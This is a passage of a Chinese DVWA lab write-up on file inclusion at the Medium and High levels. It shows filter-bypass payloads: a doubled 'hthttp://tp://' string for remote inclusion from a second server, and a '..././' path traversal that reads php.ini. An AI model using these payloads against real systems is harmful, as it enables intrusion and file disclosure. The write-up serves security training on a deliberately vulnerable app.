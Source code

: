 	该函数必须遵循下列规则:
	- 如果搜索的字符串是数组,那么它将返回数组.
	- 如果搜索的字符串是数组,那么它将对数组中的每个元素进行查找和替换.
	- 如果同时需要对数组进行查找和替换,并且需要执行替换的元素少于查找到的元素的数量,那么多余元素将用空字符串进行替换
	- 如果查找的是数组,而替换的是字符串,那么替代字符串将对所有查找到的值起作用.

**漏洞利用**

使用 str_replace 函数是极其不安全的,因为可以使用双写绕过替换规则.

例如 `page=hthttp://tp://<IP地址!!!>/phpinfo.txt` 时,str_replace 函数会将 http:// 删除,于是 `page=http://<IP地址!!!>/phpinfo.txt`,成功执行远程命令.

同时,因为替换的只是"../"、"..\",所以对采用绝对路径的方式包含文件是不会受到任何限制的.

**本地文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=..././..././..././..././..././..././..././..././..././phpStudy/PHPTutorial/WWW/DVWA/php.ini` 读取配置文件成功

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa21.png)

**远程文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=hhttp://ttp://<服务器B IP地址!!!>/phpinfo.txt` 远程执行命令成功

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa22.png)

经过编码后的 url 不能绕过替换规则,因为解码是在浏览器端完成的,发送过去的 page 参数依然是http://<IP地址!!!>/phpinfo.txt,因此读取失败.

### High

**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}

?>
```
可以看到,High 级别的代码使用了 fnmatch 函数检查 page 参数,要求 page 参数的开头必须是 file,服务器才会去包含相应的文件.

**相关函数**
- **fnmatch(pattern,string,flags)**

	函数根据指定的模式来匹配文件名或字符串.

	此函数对于文件名尤其有用,但也可以用于普通的字符串.普通用户可能习惯于 shell 模式或者至少其中最简单的形式 '?' 和 '*' 通配符,因此使用 fnmatch() 来代替 ereg() 或者 preg_match() 来进行前端搜索表达式输入对于非程序员用户更加方便.
